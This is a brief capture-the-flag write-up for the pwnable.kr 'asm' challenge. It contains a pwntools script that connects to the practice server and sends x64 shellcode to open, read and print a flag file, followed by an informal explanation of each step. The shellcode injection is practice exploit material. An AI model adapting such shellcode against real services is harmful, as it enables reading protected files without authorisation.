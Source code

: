 LEVEL - asm
here we had to write a asm x64 shell script that will open the flag read from it and then will write the content to sdtout so instead of writing all the assembly 
we can use pwntools shellcraft that will write all the asambly for us that's the code i used to get the flag:

from pwn import *
context.arch = 'amd64'
p= remote('pwnable.kr',9026)
p.recvuntil(b'shellcode:')

send = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

send += shellcraft.read('rax','rsp',0x50)

send += shellcraft.write(1,'rsp',0x50)

p.send(asm(send))
get = p.recvline().decode()
print(get)

here we conect to pwnable.kr in port 9026 we use shellcraft to make the assembly open code we try to open the flag ( the flag name is relly long)
and than we add to the nessage we will send to the sever to get the flag the assembly cod e of read we use ax as the file discreptor becouse its the register where the return verbels are stored in we store the content of the flag in the stack so we use sp we read 50 byts and than we write what we got from the flag to stdout and in the end we get the flag
